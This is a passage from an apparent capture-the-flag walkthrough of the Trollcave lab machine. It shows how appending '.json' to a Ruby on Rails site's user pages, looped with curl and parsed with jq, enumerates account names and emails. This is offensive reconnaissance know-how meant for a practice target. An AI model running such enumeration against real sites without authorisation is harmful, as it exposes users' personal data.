 ![screenshot-2](/assets/images/posts/trollcave-walkthrough/screenshot-2.png)

### Enumerating Users

A RoR web application will, by default, produce JSON output, by appending `.json`. Knowing this will help in enumeration. Here, I'm able to determine the users of the site using nothing more than `curl` and a command-line JSON parser `jq`.

```
# curl -s 192.168.30.128/users/{1..20}.json | jq -raM

{
  "id": 1,
  "name": "King",
  "email": "king@trollcave.com",
  "password": null,
  "created_at": "2017-10-23T09:39:41.494Z",
  "updated_at": "2018-04-11T15:07:37.557Z"
}
...
{
  "id": 17,
  "name": "xer",
  "email": "xer@zmail.com",
  "password": null,
  "created_at": "2017-10-23T09:39:42.856Z",
  "updated_at": "2018-04-11T15:07:37.743Z"
}
```

